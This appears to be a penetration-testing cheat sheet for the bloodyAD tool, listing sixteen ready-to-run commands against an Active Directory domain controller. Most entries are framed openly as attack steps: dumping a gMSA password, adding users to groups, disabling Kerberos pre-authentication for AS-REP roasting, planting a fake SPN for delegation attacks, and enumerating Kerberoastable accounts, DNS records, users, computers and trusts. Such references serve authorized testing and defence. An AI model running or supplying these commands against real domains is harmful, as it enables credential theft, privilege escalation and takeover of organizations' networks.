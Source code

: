 # BloodyAD

## Link: https://github.com/CravateRouge/bloodyAD

### Usage:

#### 1)

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k get object 'GMSA01$' --attr msDS-ManagedPassword

(Dump GMSA Password)

#### 2) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add groupMember "TARGET_GROUP" "USER_TO_ADD"

(Add a user to a group)

#### 3) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add uac TARGET_USER -f DONT_REQ_PREAUTH

(Disable pre-authentication on a user to do ASREPRoasting attack)

#### 4)

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k remove uac TARGET_USER -f ACCOUNTDISABLE

(Enable accounts)

#### 5) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k set object "SVC_ACCOUNT" servicePrincipalName  -v "cifs/fake" 

(Set a fake SPN for an account to do Constrained Delegation attack)

#### 6)

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get search --filter '(&(samAccountType=805306368)(servicePrincipalName=*))' --attr sAMAccountName | grep sAMAccountName | cut -d ' ' -f 2

(Get Kerberoastable accounts)

#### 7) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName

(Get account that do not require Kerberos pre-authentication (AS-REP))

#### 8)

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get dnsDump | sed -n '/[^\n]*\*/,/^$/p'

(Check if ADIDNS has a wildcard entry (if not, check ADIDNS spoofing))

#### 9) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get dnsDump

(Get all DNS Records from AD)

#### 10)

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get object 'DC=DOMAIN,DC=COM' --attr ms-DS-MachineAccountQuota

(Get Machine Account Quota (MAQ) to do an RBCD attack if the num is 10)

#### 11) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype useronly

(Get all users)

#### 12) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype computer

(Get all computers)

#### 13) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype container

(Get all containers)

#### 14) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype trustedDomain

(Get all trusts)

#### 15) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get object 'DC=DOMAIN,DC=COM' --attr minPwdLength

(Get min Password Length)

#### 16) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get object 'DC=DOMAIN,DC=COM' --attr msDS-Behavior-Version

(Get AD Forest level)
